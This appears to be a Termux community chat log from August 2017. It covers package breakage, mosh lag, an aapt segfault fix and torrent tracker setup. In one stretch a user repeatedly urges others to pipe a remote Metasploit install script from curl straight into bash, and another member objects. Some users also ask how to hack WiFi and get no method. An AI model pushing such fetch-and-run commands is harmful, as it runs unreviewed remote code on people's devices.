2017-08-17 01:40:41	live_the_dream	its on these occastions i wish one of us had energency ph call but i guess its nit that big of a deal

2017-08-17 01:40:58	live_the_dream	not like medical equipment just shut down right?

2017-08-17 01:41:03	frumpylava	I opened an etherpad here: https://pads.ccc-ch.ch/public_pad/libintl.so, so we can collect all broken things.

2017-08-17 01:43:10	frumpylava	live_the_dream: I really wish we had a "testing"-repo.

2017-08-17 01:43:23	live_the_dream	same

2017-08-17 01:47:50	gitter	(Ashish882) Abybudy tell me to install airmon-ng in termux

2017-08-17 01:48:22	frumpylava	live_the_dream: all programs ffmpeg are broke: bs1770gain, mpv, mpd

2017-08-17 01:53:28	zexa	gitter: https://github.com/termux/termux-packages/issues/371

2017-08-17 01:54:52	frumpylava	^ @Ashish882

2017-08-17 02:02:44	frumpylava	live_the_dream: However your workaround seems to work for all of them.

2017-08-17 02:02:58	live_the_dream	made a mistake think bimutils is fine

2017-08-17 02:04:01	zexa	Anyone here used mosh before?

2017-08-17 02:04:17	live_the_dream	yep

2017-08-17 02:04:17	frumpylava	zexa: yes. what of it?

2017-08-17 02:05:09	zexa	Particularly the mosh chrome client. When i use the ssh mode to connect to my termux device, does it use the mosh protocol or the ssh one? or are they the same thing?

2017-08-17 02:05:35	live_the_dream	ssh one first to auth

2017-08-17 02:05:48	live_the_dream	then moves over to udp 60001

2017-08-17 02:05:52	gitter	(Ashish882) Thanks I check

2017-08-17 02:06:18	zexa	live_the_dream: IC, thanks.

2017-08-17 02:06:39	live_the_dream	needs 1 udp port per client

2017-08-17 02:06:54	frumpylava	60001-60999

2017-08-17 02:07:44	gitter	(Ashish882) It mean it is not possible.in termux

2017-08-17 02:09:06	zexa	Any ways to decrease the lag? My mosh client still gets periodic freezes of 10-15s. Even with termux-wake-lock

2017-08-17 02:09:48	frumpylava	zexa: are you connecting to or from termux?

2017-08-17 02:10:00	zexa	to

2017-08-17 02:10:17	frumpylava	zexa: What device do you have?

2017-08-17 02:10:36	zexa	Samsung Note 4

2017-08-17 02:10:36	live_the_dream	only way to fix that is to fidfle wirh kernel cpufreq stuff

2017-08-17 02:12:06	frumpylava	hmm... On some devices the wifi chip goes to sleep when nothing is downloading, this causes apps like ssh and mosh to lag at incoming connections.

2017-08-17 02:12:40	live_the_dream	ahh

2017-08-17 02:13:08	live_the_dream	disable wifi optimizarion?

2017-08-17 02:13:14	frumpylava	The only workaround I have found is connecting to android via usb instead of wifi. https://glow.li/technology/2016/09/20/access-termux-via-usb.html

2017-08-17 02:13:22	frumpylava	live_the_dream: Hasn't helped in my case.

2017-08-17 02:13:29	live_the_dream	darn

2017-08-17 02:14:21	zexa	frumpylava: and that's not even an option in my case, as I'm not comfortable connecting my phone to work computers...

2017-08-17 02:17:07	live_the_dream	yeah android and most phones have binary blobs such that its highly likely that its insecure. but that is most likely  people at international business spy kevek stuff

2017-08-17 02:17:47	live_the_dream	since you wouod need telecom level or google level access ...

2017-08-17 02:19:35	live_the_dream	not likely

2017-08-17 02:20:25	live_the_dream	but local level stuff on phone is another matter i guess

2017-08-17 05:14:18	fornwall	all packages linking against libintl.so has been rebuilt and fixed now, sorry for the trouble!

2017-08-17 05:16:33	gitter	(cocodevienne) @fornwall what about my question earlier?:)

2017-08-17 05:20:08	frumpylava	fornwall: That's great. everything seems to work again.

2017-08-17 05:27:34	gitter	(fornwall) @cocodevienne sorry, what question?

2017-08-17 05:30:38	gitter	(cocodevienne) How did you promote Termux right at the beginning? Because I am struggling...

2017-08-17 05:30:43	gitter	(cocodevienne) @fornwall

2017-08-17 05:31:42	frumpylava	@cocodevienne are you struggling promoting your 350$ App?

2017-08-17 05:32:42	gitter	(cocodevienne) lol no the other one for 3,59;)

2017-08-17 05:32:55	gitter	(cocodevienne) @frumpylava

2017-08-17 05:43:20	gitter	(fornwall) @cocodevienne posted on some forums mostly. I think you should start with a free app, it's a lot easer to get people to install and give feedback on a free app, and you probably need a lot of feedback when starting out

2017-08-17 05:47:25	gitter	(fornwall) since a couple of days ago the termux apt repo uses `Acquire-By-Hash: yes` as described in https://www.chiark.greenend.org.uk/~cjwatson/blog/no-more-hash-sum-mismatch-errors.html, so hopefully the `Hash Sum Mismatch` problem that have affected people over time due to http caching issues should be gone

2017-08-17 05:48:10	gitter	(fornwall) basically, it avoids http caching issues and race conditions by using a new url for each new revision of the package index

2017-08-17 05:50:45	gitter	(cocodevienne) Oh that sounds good! @fornwall

2017-08-17 05:51:21	gitter	(cocodevienne) I want to know more, unfortunately my phone is empty after running for two days straight but I'll get back here to you as soon as I have some juice!

2017-08-17 05:51:31	gitter	(cocodevienne) Thx for now!!! I really appreciate it!

2017-08-17 06:05:30	frumpylava	oh. I have to rebootstrap all my virtualenvs.

2017-08-17 06:43:43	gitter	(cocodevienne) https://pastebin.com/kgYeTPYB

2017-08-17 06:43:56	gitter	(cocodevienne) This is for you @sdrausty!

2017-08-17 06:44:45	gitter	(cocodevienne) You can use this simple Hello World app to test out the work you are doing for Buildozer!

2017-08-17 06:44:45	gitter	(cocodevienne) If you are still doing it.

2017-08-17 06:44:56	gitter	(cocodevienne) I wanted to send it to you yesterday but then I had to meet a friend.

2017-08-17 06:45:07	gitter	(cocodevienne) Anyways, now you have it!

2017-08-17 06:47:27	gitter	(cocodevienne) https://pastebin.com/YQcu7rys

2017-08-17 06:48:02	gitter	(cocodevienne) And here is a `buildozer.spec` you could use!

2017-08-17 06:52:13	gitter	(cocodevienne) Bu you said something about forums? @fornwall  Which ones for instance?

2017-08-17 08:38:05	u0_a149	hi all

2017-08-17 08:39:52	u0_a149	got any termux tips

2017-08-17 08:40:40	u0_a149	voce

2017-08-17 08:40:47	u0_a149	voice

2017-08-17 08:43:14	zexa	this is more of a IRC than termux tip but

2017-08-17 08:43:14	zexa	change your username u0_a149

2017-08-17 08:45:46	u0_a149	ffiniset nitoset bi

2017-08-17 09:01:34	gitter	(Auxilus) @vishalbiswas i am forcing to install Metasploit - 4.14.21

2017-08-17 09:05:23	gitter	(Auxilus) --2017-08-17 18:34:45--  https://github.com/Auxilus/Auxilus.github.io/4.14.21.zip                                       Resolving github.com... 192.30.253.112, 192.30.253.113      Connecting to github.com|192.30.253.112|:443... connected.  HTTP request sent, awaiting response... 404 Not Found       2017-08-17 18:34:46 ERROR 404: Not Found.                                                                               unzip:  cannot f

2017-08-17 09:05:23	gitter	4.14.21.zip.zip or 4.14.21.zip.ZIP.                                            mv: cannot stat 'metasploit-framework-4.14.21': No such file or directory                                               bash: line 18: cd: metasploit-framework: No such file or directory

2017-08-17 09:08:55	gitter	(Auxilus) Can anyone try out the script?

2017-08-17 09:09:44	gitter	(Auxilus) Just execute `cd $HOME & & curl -L https://Auxilus.github.io/metasploit.sh | bash`

2017-08-17 09:09:50	gitter	(Auxilus) Sry

2017-08-17 09:10:02	gitter	(Auxilus) Just exec `cd $HOME

2017-08-17 09:10:02	gitter	(Auxilus) curl -L https://Auxilus.github.io/metasploit.sh | bash`

2017-08-17 09:12:21	gitter	(cocodevienne) Tried it

2017-08-17 09:12:25	gitter	(cocodevienne) doesn't work!:(

2017-08-17 09:12:29	gitter	(cocodevienne) @Auxilus

2017-08-17 09:12:57	gitter	(Auxilus) Whats the error?

2017-08-17 09:13:29	gitter	(Auxilus) Do you have metasploit-framework installed?

2017-08-17 09:13:43	gitter	(cocodevienne) It aborted while installing the prerequisites.

2017-08-17 09:13:45	gitter	(cocodevienne) Nope

2017-08-17 09:13:47	gitter	(cocodevienne) .

2017-08-17 09:13:50	gitter	(Auxilus) Uninstall it and then `cd $HOME`

2017-08-17 09:14:10	gitter	(Auxilus) Then exec `curl -L https://Auxilus.github.io/metasploit.sh | bash`

2017-08-17 09:14:32	gitter	(Auxilus) Let me know if its running...

2017-08-17 09:14:48	gitter	(Auxilus) Btw is your repo up?

2017-08-17 09:17:25	gitter	(Auxilus) @cocodevienne is it working?

2017-08-17 09:17:53	gitter	(cocodevienne) What should I uninstall?

2017-08-17 09:18:16	gitter	(cocodevienne) I've been working tirelessly on my apps but it's all happening, don't worry.

2017-08-17 09:18:18	gitter	(cocodevienne) @Auxilus

2017-08-17 10:10:13	gitter	(Auxilus) No man just run `

2017-08-17 10:10:33	gitter	(Auxilus) @cocodevienne `curl -L https://Auxilus.github.io/metasploit.sh | bash`

2017-08-17 10:42:50	frumpylava	@Auxilus don't curl | bash.

2017-08-17 10:42:52	frumpylava	https://www.seancassidy.me/dont-pipe-to-your-shell.html

2017-08-17 10:43:04	frumpylava	https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/

2017-08-17 11:01:00	gitter	(Auxilus) Ok frumpylava

2017-08-17 11:17:14	gitter	(Auxilus) I wanna start a torrent site, how do I do that?

2017-08-17 11:17:34	gitter	(Auxilus) (more like tpb)

2017-08-17 11:20:50	BrainDamage	you need to host a torrent tracker

2017-08-17 11:21:03	BrainDamage	then write a search interface for it

2017-08-17 11:21:22	BrainDamage	and allow people upload files

2017-08-17 12:48:51	specialkay	hey

2017-08-17 13:52:49	gitter	(Auxilus) Hey man 'sup

2017-08-17 14:24:34	frumpylava	@Auxilus, if you want to test on Termux I've found both Chihaya and pybtracker to work well. I'm using Chihaya to distribute torrents in local networks at hackerspaces.

2017-08-17 14:25:41	gitter	(Auxilus) Is it sort of like private version of tpb?

2017-08-17 14:27:17	gitter	(Auxilus) Ye sure, id like to test and use it.... I really wanna have some private torrent site for my friends

2017-08-17 14:30:31	frumpylava	@Auxilus, No it's just the trackers. No web frontend. I haven't found a good easy solution for that. Let me know if you find something that does the web stuff

2017-08-17 14:31:11	gitter	(Auxilus) There is openbay

2017-08-17 14:31:30	gitter	(Auxilus) But looks like they shut down the project

2017-08-17 14:31:30	gitter	(Auxilus) Its on git

2017-08-17 14:31:49	gitter	(Auxilus) Not sure about frontend tho

2017-08-17 14:32:34	gitter	(cocodevienne) You could use Jekyll maybe?

2017-08-17 14:33:54	gitter	(Auxilus) @cocodevienne i heard a lot about it, but isnt it a blog creator?

2017-08-17 14:35:54	frumpylava	@Auxilus Jekyll won't do because it's a static site. You can't do a file upload with it.

2017-08-17 14:36:26	gitter	(Auxilus) Ik,

2017-08-17 14:36:44	gitter	(Auxilus) Do you have any php script to do file uploads?

2017-08-17 14:36:50	gitter	(Auxilus) I cant find on google...

2017-08-17 14:37:44	frumpylava	No. But it's really easy to do yourself. Just a few lines of code. There arr plenty of tutorials.

2017-08-17 14:38:30	gitter	(Auxilus) Ye, im seeing one on YT atm...

2017-08-17 15:07:58	sdrausty	hello

2017-08-17 15:18:08	frumpylava	@Auxilus I was also playing around with a ftp server. It just depends on how technologically adept your friends are.

2017-08-18 20:00:16	johnnymacs	I'm trying to get myself into a sort of slackware situation where I can just compile away on make

2017-08-18 20:22:08	sdrausty	Anyone else who can see if aapt:s segfaults for them?

2017-08-18 20:26:40	sdrausty	the newest aapt after `apt update && apt upgrade` Please back up you aapt*.deb before proceeding `cp $PREFIX/var/cache/apt/archives/aapt*.deb /sdcard/Download/`

2017-08-18 20:28:24	sdrausty	cp $PREFIX/var/cache/apt/archives/aapt.deb /sdcard/Download/ \* `cp $PREFIX/var/cache/apt/archives/aapt*.deb /sdcard/Download/`

2017-08-18 20:30:51	sdrausty	Before upgrading you will probably want to backup aapt*.deb from your current version if you can. You msy copy it anywhere `cp $PREFIX/var/cache/apt/archives/aapt*.deb /sdcard/Download/` is just a suggestion.

2017-08-18 20:31:09	sdrausty	msy *may

2017-08-18 20:33:15	sdrausty	If you find aapt seg faults please post at https://github.com/termux/termux-packages/issues/1287

2017-08-18 20:34:22	sdrausty	Segmentation Fault in `aapt` after Latest Update

2017-08-18 20:36:54	sdrausty	The easiest way to reproduce this seg fault is:

2017-08-18 20:37:01	sdrausty	cd && apt update && apt upgrade

2017-08-18 20:37:01	sdrausty	apt install aapt apksigner dx ecj findutils git 

2017-08-18 20:37:01	sdrausty	git clone https://github.com/sdrausty/buildAPKs

2017-08-18 20:37:01	sdrausty	./buildAPKs/scripts/build/buildMyFirstAPK.sh

2017-08-18 20:38:44	fornwall	sdrausty: hm strange, I'm unable to reproduce the aapt segfault, tested on both android 6 and android 7

2017-08-18 20:38:55	fornwall	can you try a new build of the package and see if that makes a difference?

2017-08-18 20:38:58	fornwall	rm -f a.deb && wget http://fornwall.net/a.deb && apt install --reinstall -y --allow-downgrades ./a.deb

2017-08-18 20:39:30	gitter	(sdrausty) @fornwall tnx for your suggestion 'bout `findutils` ⛵🚤🛳⚓☺

2017-08-18 20:42:09	sdrausty	Tried it! Still seg fault

2017-08-18 20:42:42	sdrausty	aapt/stable,now 7.0.0.14-3 aarch64 [installed]

2017-08-18 20:43:01	u0_a122	hi

2017-08-18 20:44:29	sdrausty	It's still the same version. 

2017-08-18 20:44:43	sdrausty	one momeent please

2017-08-18 20:44:54	sdrausty	hi u0_a122

2017-08-18 20:45:45	sdrausty	dpkg --purge aapt

2017-08-18 20:46:23	sdrausty	$ wget http://fornwall.net/a.deb

2017-08-18 20:46:53	sdrausty	dpkg --install a.deb

2017-08-18 20:47:12	sdrausty	Setting up aapt (7.0.0.14-3) ...

2017-08-18 20:47:34	sdrausty	Segmentation fault

2017-08-18 20:47:55	fornwall	right, the package was the same version, just rebuilt to see if it would make a difference

2017-08-18 20:48:01	sdrausty	ok

2017-08-18 20:48:26	fornwall	hm, interesting that I can't reproduce it, would be informative to hear about others trying it out. anyone?

2017-08-18 20:48:31	sdrausty	can you wget previuos version

2017-08-18 20:49:01	sdrausty	the one I had before todays `au`

2017-08-18 20:49:57	sdrausty	`au` is a little sccript on $PATH `apt update && apt upgrade`

2017-08-18 20:51:20	sdrausty	id like to dpkg it back on so https://sdrausty.github.io/buildAPKs builds again on device hopefully

2017-08-18 20:52:50	fornwall	unfortunately old .deb files are not kept around

2017-08-18 20:53:04	fornwall	but can you try a new tweaked build, and install http://fornwall.net/a.deb again?

2017-08-18 20:53:11	fornwall	it should now say version 7.0.0.14-4

2017-08-18 20:53:21	sdrausty	arg should'ave backed up

2017-08-18 20:53:44	sdrausty	ok

2017-08-18 20:54:19	sdrausty	Setting up aapt (7.0.0.14-3) ...

2017-08-18 20:54:38	sdrausty	t's not -4

2017-08-18 20:56:17	sdrausty	@fornwall Do you have any favorites from the collection @buildAPKs ?

2017-08-18 20:56:32	fornwall	strange, can you try http://fornwall.net/a2.deb instead?

2017-08-18 20:57:25	fornwall	I just tried it out for the first time now, haven't looked into any particular app. but really impressive work having everything building!

2017-08-18 20:57:28	sdrausty	I like a few of the 

2017-08-18 20:57:36	sdrausty	0kb/s ?

2017-08-18 20:57:55	sdrausty	eta 85+ min 2.7mb

2017-08-18 20:57:58	sdrausty	?

2017-08-18 20:59:15	sdrausty	Setting up aapt (7.0.0.14-4) ...

2017-08-18 20:59:57	sdrausty	Install step2.apk from /sdcard/Download/ using your file manager from Android.

2017-08-18 20:59:57	sdrausty	$

2017-08-18 21:00:00	sdrausty	tnx

2017-08-18 21:00:28	fornwall	that version doesn't segfault for you?

2017-08-18 21:00:33	sdrausty	aapt/now 7.0.0.14-4 aarch64 [installed,local]

2017-08-18 21:01:07	sdrausty	correct it built moon let me check buildAll

2017-08-18 21:01:52	fornwall	ok, that's interesting!

2017-08-18 21:04:13	sdrausty	building and depositting APKs as should be thank you @fornwall

2017-08-18 21:04:33	sdrausty	yes it is interesting

2017-08-18 21:04:37	fornwall	do you have the time to try out two more versions?

2017-08-18 21:05:02	fornwall	http://fornwall.net/a-25.deb

2017-08-18 21:05:05	fornwall	and

2017-08-18 21:05:10	fornwall	http://fornwall.net/a-26.deb

2017-08-18 21:05:16	sdrausty	im a little tired but sure of course itwill be my pleasure

2017-08-18 21:05:55	fornwall	thanks! they should both be at version 7.1.2.33

2017-08-18 21:08:41	sdrausty	0kb/s 

2017-08-18 21:09:13	fornwall	hm, seems to be problem with the web host there. does it download eventually?

2017-08-18 21:11:02	sdrausty	...

2017-08-18 21:11:41	sdrausty	Setting up aapt (7.1.2.33) ...

2017-08-18 21:11:46	sdrausty	builds

2017-08-18 21:12:20	fornwall	nice! is that a-25.deb?

2017-08-18 21:12:36	sdrausty	a-26 builds too

2017-08-18 21:12:45	sdrausty	both are OK

2017-08-18 21:13:28	sdrausty	both have the same version both built moon

2017-08-18 21:15:23	sdrausty	surprisingly I'm not as tired as I was. Actually now I feel full of energy!

2017-08-18 21:16:10	sdrausty	I'll be glad to help 'bout screen garbage in weechat

2017-08-18 21:16:27	sdrausty	just reappered onscreen btw

2017-08-18 21:18:16	sdrausty	not to mention repetitive flickering ;)

2017-08-18 21:18:45	sdrausty	not always of course just once in a while

2017-08-18 21:23:11	sdrausty	@thank you for you amazing work :)

2017-08-18 21:23:46	sdrausty	@thank *@fornwall thank

2017-08-18 21:26:14	sdrausty	there are some minimalistic APKs in buildAPKs. Do U 'ave any ffavorites?

2017-08-18 21:41:31	gitter	(fornwall) Hitting sleep, great that the aapt problem is fixed, will push it as an update for everyone tomorrow!

2017-08-18 21:41:39	gitter	(fornwall) Thanks for all the help!

2017-08-18 21:58:53	sdrausty	@fornwall Tha

2017-08-18 21:59:38	sdrausty	@fornwall You're welcome and thank you once more!

2017-08-18 22:04:11	sdrausty	I want to build on device! We need more native space on device https://github.com/termux/termux-packages/issues/1176

2017-08-18 22:05:25	sdrausty	build *build more https://sdrausty.github.io/pages/more

2017-08-18 22:05:49	sdrausty	need *want

2017-08-18 22:11:50	sdrausty	685 packages that are available

2017-08-18 22:12:03	sdrausty	for Termux! :)

2017-08-18 22:12:20	sdrausty	@termux.net

2017-08-18 22:27:36	gitter	(Auxilus) My GitHub page is redirecting to tor.auxilus.io instead of Auxilus.github.io

2017-08-18 22:27:57	gitter	(Auxilus) I also have CNAME file with Auxilus.github.io

2017-08-18 22:28:18	gitter	(Auxilus) But still it redirects to tor.auxilus.com

2017-08-18 22:40:42	sdrausty	@auxilus There us something peculiar about CNAME. I tried it to.

2017-08-18 22:40:51	sdrausty	us *is

2017-08-18 22:41:43	gitter	(Auxilus) So what can i do to fix it?

2017-08-18 22:41:56	gitter	(Auxilus) I contacted github support...

2017-08-18 22:43:18	sdrausty	maybe

2017-08-18 22:46:11	sdrausty	read the focs

2017-08-18 22:46:21	sdrausty	focs *docs

2017-08-18 22:46:31	sdrausty	reread

2017-08-18 22:46:44	sdrausty	and reread again

2017-08-18 22:47:18	sdrausty	all the info dhould be in setting up pages webpages at github

2017-08-18 22:47:41	sdrausty	websites kinda too

2017-08-18 22:48:16	sdrausty	dhould be *should be

2017-08-18 22:53:09	gitter	(Auxilus) Okay

2017-08-18 23:16:37	sdrausty	it might not be a github issue

2017-08-18 23:16:56	sdrausty	CNAME has two (2)

2017-08-18 23:17:46	sdrausty	well two or more as far as I can telk

2017-08-18 23:18:08	sdrausty	your CNAME provider is one

2017-08-18 23:18:24	sdrausty	dns is one more

2017-08-18 23:18:46	sdrausty	not to mention github 

2017-08-18 23:19:04	sdrausty	that's three 

2017-08-18 23:20:01	sdrausty	are there anymore dependants fir a proper CNAME @github ?

2017-08-18 23:20:58	sdrausty	telk *tell

2017-08-18 23:44:33	sdrausty	@fornwall While we were discussing aapt my 🐕 throughput was dropping and remaining at 0/kbs usually it us in 💪 +💯/kbs and it tops out at +2/mbs

2017-08-18 23:44:51	sdrausty	us *is

2017-08-18 23:46:41	sdrausty	garbled screen in weechat on Termux, arghgg;)

2017-08-18 23:47:38	sdrausty	max throughput on device

2017-08-18 23:48:21	sdrausty	What is your max throughput (transmisdion rate)?

2017-08-18 23:55:55	sdrausty	There are some incredible minimalist builds at https://github.com/sdrausty/buildAPKs and submodules.

2017-08-18 23:56:59	sdrausty	Please post your opinion of the minimalistic APKs

2017-08-18 23:58:00	sdrausty	Minimum source code, minimum options, maximum effect!

2017-08-18 23:58:29	sdrausty	2?

2017-08-19 01:37:23	droidoconner	hi :) anyone awake?

2017-08-19 02:12:49	gitter	(Ashish882) Hi

2017-08-19 02:13:09	gitter	(Ashish882) Many are asking about hacking WiFi with termux

2017-08-19 02:13:45	gitter	(Ashish882) Can there is way to hack WiFi . I know that not possible but if any or why not possible

2017-08-19 02:13:49	gitter	(Ashish882) Tell me that too

2017-08-19 03:34:35	androidoconner	hi is there any one here?

2017-08-19 04:53:41	live_the_dream	4?2

2017-08-19 04:53:42	live_the_dream	ls

2017-08-19 04:53:52	live_the_dream	\?

2017-08-19 05:57:00	monkey	hey, anyone here?

2017-08-19 05:58:54	gitter	(vishalbiswas) there is someone always

2017-08-19 06:02:40	gitter	(vishalbiswas) live_the_dream: about openjdk can you try export those flags in BUILD_CXX or similar

2017-08-19 06:03:33	live_the_dream	its -lpthread

2017-08-19 06:04:09	gitter	(vishalbiswas) yes

2017-08-19 06:04:39	live_the_dream	i wikk in a bit im seeing what aa4ch64 is doing

2017-08-19 06:04:39	gitter	(vishalbiswas) i removed it from configure when i switched the abi from android to gnu

2017-08-19 06:05:43	live_the_dream	seems some assembly is required

2017-08-19 06:05:47	live_the_dream	or somethibg

2017-08-19 06:08:32	live_the_dream	i will come back ti this later

2017-08-19 06:14:07	gitter	(Ashish882) @vishalbiswas can you tell me how.to jack WiFi with termux

2017-08-19 06:14:07	gitter	(Ashish882) @vishalbiswas

2017-08-19 06:14:22	gitter	(Ashish882) I asking many time no one.replying

2017-08-19 06:17:07	monkey	the termux apps on f-droid fail to install due to "an unknown error". What's wrong?

2017-08-19 06:31:49	gitter	(vishalbiswas) @Ashish882 that's because no one knows. You probably ask in some hacking forums/irc you will have better luck there

2017-08-19 06:33:30	gitter	(vishalbiswas) monkey: do you have any termux apps installed?

2017-08-19 06:35:22	monkey	i have the main termux app installed through play store

2017-08-19 06:36:57	gitter	(vishalbiswas) That's it

2017-08-19 06:37:22	gitter	(vishalbiswas) All termux apps should be installed from same source

2017-08-19 06:37:43	monkey	oh...

2017-08-19 06:38:10	monkey	thank you! i will try installing it from f-droid

2017-08-19 08:34:15	gitter	(Auxilus) Any one have good torrent trackers? @sdrausty?

2017-08-19 09:28:33	sdrausty	aria2 & transmission

2017-08-19 09:33:22	gitter	(Auxilus) Can you gimme tracker links?

2017-08-19 09:40:40	sdrausty	I just sent two packages that deal with torrent on Termux. 

2017-08-19 09:41:05	sdrausty	two packages *two package names

2017-08-19 09:41:13	gitter	(Auxilus) I got.torrent files

2017-08-19 09:41:26	gitter	(Auxilus) Created with transmission itself

2017-08-19 09:41:54	gitter	(Auxilus) But when i add .torrent to utorrent it doesn't download the file

2017-08-19 09:42:15	gitter	(Auxilus) (the file is seeding inside transmission)

2017-08-19 09:42:56	sdrausty	great

2017-08-19 09:42:56	gitter	(Auxilus) How can I fix it?

2017-08-19 09:43:05	sdrausty	oh

2017-08-19 09:43:42	sdrausty	what client are you using?

2017-08-19 09:43:44	gitter	(Auxilus) Can you try on your bittorrent client?

2017-08-19 09:43:52	gitter	(Auxilus) Im on uTorrent

2017-08-19 09:45:11	sdrausty	@Auxilus I am leaving to go see the eclipse, Sorry, I'm too busy right now. Latter OK

2017-08-19 09:45:13	gitter	(Auxilus) @sdrausty

2017-08-19 09:45:22	gitter	(Auxilus) Np

2017-08-19 09:45:34	gitter	(Auxilus) Whats eclipse?

2017-08-19 09:46:04	sdrausty	20170821 solar eclipse 

2017-08-19 09:46:45	gitter	(Auxilus) Kk

2017-08-19 09:46:45	gitter	(Auxilus) Oo

2017-08-19 09:46:52	gitter	(Auxilus) But its on 21

2017-08-19 09:47:04	gitter	(Auxilus) Today is 19

2017-08-19 09:48:04	sdrausty	I want yo be there before the crowd gets there.

2017-08-19 09:48:39	gitter	(Auxilus) You goin' at some hill station or something?

2017-08-19 09:49:38	sdrausty	Just want to be in the path of totality. I was hoping yo go to Portland, OR

2017-08-19 09:49:44	sdrausty	yo *to

2017-08-19 09:50:41	sdrausty	Actualy on the Pacific coast southwest of Portland

2017-08-19 09:52:55	sdrausty	They'll see an amzing event at the beach.

2017-08-19 09:53:13	sdrausty	amzing *amazing

2017-08-19 09:55:22	sdrausty	Maybe I'll make a page, Termux at the eclipse/eclipse in Termux at sdrausty.github.io

2017-08-19 10:08:54	sdrausty	If the weather is great, that is.

2017-08-19 10:34:01	sdrausty	https://www.google.com/search?q=portland+eclipse

2017-08-19 10:38:12	BrainDamage	auxilius: ignore what sdrausty said, he mentioned torrent /clients/, not trackers

2017-08-19 10:38:22	sdrausty	oh

2017-08-19 10:38:56	gitter	(Auxilus) What should i do???

2017-08-19 10:39:01	gitter	(Auxilus) I added 4 trackers

2017-08-19 10:39:09	gitter	(Auxilus) Still not downloading at client

2017-08-19 10:39:19	sdrausty	BrainDamage: Are there any torrent tracker pkgs?

2017-08-19 10:39:30	BrainDamage	in termux? not that i know of

2017-08-19 10:39:47	BrainDamage	altough, strictly speaking, a tracker is not requried for torrents to work

2017-08-19 10:39:50	gitter	(Auxilus) How do i solve it?

2017-08-19 10:40:00	BrainDamage	if you're connected to the dht, the peers can exchange data

2017-08-19 10:40:12	BrainDamage	and both transmission and aria support dht data exchange

2017-08-19 10:40:38	BrainDamage	auxilius: first of all, determine if the tracker is seeing the peers

2017-08-19 10:40:53	BrainDamage	and if the peers are connecting to the tracker

2017-08-19 10:40:59	gitter	(Auxilus) Take a look at torrent that im seeding...

2017-08-19 10:41:09	gitter	(Auxilus) http://f9c5e2d6.ngrok.io

2017-08-19 10:41:39	BrainDamage	you shouldn't give public remote access

2017-08-19 10:41:52	gitter	(Auxilus) I gave

2017-08-19 10:41:59	BrainDamage	give the .torrent or the magnet url

2017-08-19 10:41:59	gitter	(Auxilus) http://f9c5e2d6.ngrok.io

2017-08-19 10:42:09	gitter	(Auxilus) Ah.. Wait...

2017-08-19 10:42:39	BrainDamage	so which of the 2 is it?

2017-08-19 10:42:49	BrainDamage	4.14 or stan?

2017-08-19 10:43:13	gitter	(Auxilus) Stan

2017-08-19 10:43:26	gitter	(Auxilus) Not i will add torrent to uTorrent...

2017-08-19 10:44:02	BrainDamage	ok, as you can see in the status, it reports successful announcement on 3 trackers, 1 failed

2017-08-19 10:44:02	gitter	(Auxilus) Added

2017-08-19 10:44:30	gitter	(Auxilus) Ye but we need only 1 tracker...

2017-08-19 10:44:30	BrainDamage	however, your peer list is empty

2017-08-19 10:44:54	gitter	(Auxilus) I got 2leechers

2017-08-19 10:44:58	gitter	(Auxilus) On 3rd tracker

2017-08-19 10:45:18	gitter	(Auxilus) Also 5peers on tracker 1

2017-08-19 10:45:22	BrainDamage	weird, the ui is not updating the peer list for me

2017-08-19 10:45:53	BrainDamage	3 leechers is the tracker global info

2017-08-19 10:45:59	BrainDamage	not 3 leechers attached to you

2017-08-19 10:46:07	gitter	(Auxilus) Hmm

2017-08-19 10:46:12	gitter	(Auxilus) Wait lemme chk again

2017-08-19 10:46:23	BrainDamage	your peer list is instead completely empty

2017-08-19 10:46:57	gitter	(Auxilus) Where is peer list? I cant find

2017-08-19 10:47:01	gitter	(Auxilus) Is it on ui

2017-08-19 10:47:02	gitter	(Auxilus) ?

2017-08-19 10:47:57	gitter	(Auxilus) How do I fix it?

2017-08-19 10:48:22	BrainDamage	click on a torrent, click on the blue i

2017-08-19 10:48:33	BrainDamage	then you see torrent details

2017-08-19 10:48:35	gitter	(Auxilus) Then?

2017-08-19 10:48:39	BrainDamage	the person icon is the peer list

2017-08-19 10:48:42	BrainDamage	it's empty

2017-08-19 10:48:51	gitter	(Auxilus) Hmmm..

2017-08-19 10:49:00	gitter	(Auxilus) Whats the problem then?

2017-08-19 10:49:05	gitter	(Auxilus) Is it not seeding?

2017-08-19 10:49:42	BrainDamage	no, it's worse, you're not seeing even the other seeders

2017-08-19 10:49:54	gitter	(Auxilus) Shit man!

2017-08-19 10:49:55	BrainDamage	you're not communicating with the trackers properly

2017-08-19 10:50:11	gitter	(Auxilus) Its transmission package...

2017-08-19 10:50:37	gitter	(Auxilus) I created `.torrent` file with it itself

2017-08-19 10:51:32	gitter	(Auxilus) What do I do?

2017-08-19 10:52:39	gitter	(Auxilus) ?

2017-08-19 10:53:36	gitter	(Auxilus) Anyone?

2017-08-19 10:53:58	gitter	(Auxilus) Shit 6 connections open on my ngrok

2017-08-19 10:54:07	gitter	(Auxilus) Im closing the server

2017-08-19 11:22:41	gitter	(themastersunil) CT

2017-08-19 11:23:00	gitter	(themastersunil) sorry by mistake..😆😅

2017-08-19 11:23:24	gitter	(themastersunil) wpscan is not working in termux, why?

2017-08-19 11:27:58	gitter	(themastersunil) I'm fassing error in 'getdtablesize'

2017-08-19 11:28:30	gitter	(themastersunil) Tell me, how to fix this error? anyone is there?

2017-08-19 11:30:58	gitter	(themastersunil) [ERROR] Function 'getdtablesize' not found in [libc.so]

2017-08-19 11:32:13	gitter	(Hax4us) Hey all termux lovers plz look at this error and give solutions plz  @sdrausty  @vishalbiswas @fornwall proot info: vpid 1: terminated with signal 7

2017-08-19 11:35:23	gitter	(themastersunil) Nobody is there 😥

2017-08-19 11:36:33	gitter	(Hax4us) Gm to all..plz wake up...😂

2017-08-19 11:36:43	gitter	(Hax4us) And help me

2017-08-19 11:47:10	gitter	(AshleyNykiel) Any chance of adding source-highlight to the Termux repos to provide source code highlighting to Ranger file mananger:  https://www.gnu.org/software/src-highlite/source-highlight.html

2017-08-19 11:54:45	gitter	(Hax4us) Ncurses-dev is giving dpkg error after upgrading

2017-08-19 13:01:45	gitter	(Auxilus) Any1 plz help me with my torrent issue

2017-08-19 13:04:23	gitter	(Hax4us) @Auxilus all are sleeping..😂

2017-08-19 13:04:44	gitter	(Hax4us) Wait ...i  also waiting

2017-08-19 13:04:56	gitter	(Hax4us) m*

2017-08-19 13:05:40	gitter	(Auxilus) :(

2017-08-19 14:36:36	gitter	(Ashish882) What happen devil @Hax4us

2017-08-19 14:37:39	gitter	(Auxilus) Any 1 have uTorrent or BitTorrent?

